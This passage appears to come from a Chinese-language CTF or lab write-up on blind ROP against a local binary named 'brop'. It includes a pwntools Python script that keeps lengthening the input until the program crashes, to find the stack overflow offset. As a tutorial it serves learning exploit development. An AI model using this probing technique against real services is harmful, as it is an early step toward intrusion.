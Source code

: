 我们先运行一下程序试试，看看程序流程：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598322706838-8d3f0bb6-7554-4764-b781-24b5e9b94a76.png)

可见，当我们输入123456时，会提示“No password, no game”的字样

接下来我们输入200个字符：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598322847829-b0f6d14b-1224-4f43-9d4b-8243b292721f.png)

从上图中我们可以看到，输入一串特别长的字符串的时候没有出现“No password, no game”的字样，那么我们就可以使用循环来不断增加字符串长度，并且根据回显结果中是否有“No password, no game”字样来判断到什么长度覆盖了ret返回地址，并且该长度**<font style="color:#F5222D;">减一</font>**就是栈溢出的长度。

可以得出结论：

循环内容：累加输入字符串长度，填满栈空间

循环终止条件：回显结果起始位置字符串为No password, no game

执行目的：确定栈溢出长度，为后续所有步骤做准备

exp如下：

```python
from pwn import*
def getsize():
    i = 1
    while 1:
        try:
            p = process('./brop') #本地链接程序
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload=i*'a' #不断增加a的数量输入到程序中
            print "Now,The payload is",payload
            p.send(payload)
            data = p.recv()  #将获取到的回显内容放在data变量中
            p.close()
            if not data.startswith('No password'):
                #判断output变量中起始位置是不是No password，如果不是说明已经溢出了
                return i-1
            else:
                i+=1
                print "Adding the number of 'a' in payload..."
        except EOFError:
            p.close()
            print "Success,EOFError,Stack is overflow..."
            return i-1
 
size = getsize()
print "Stack size is ",size
```

> 简单的说一下这个exp：在每次执行时，payload的a的数目会随着循环的次数所增加，如果触发了EOFError异常，说明出现了栈溢出，因此返回i-1，反之如果输出No password，则此payload无法使程序溢出
>

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597379878521-730b5086-5350-4ef1-a04f-98be3a54baf6.png)
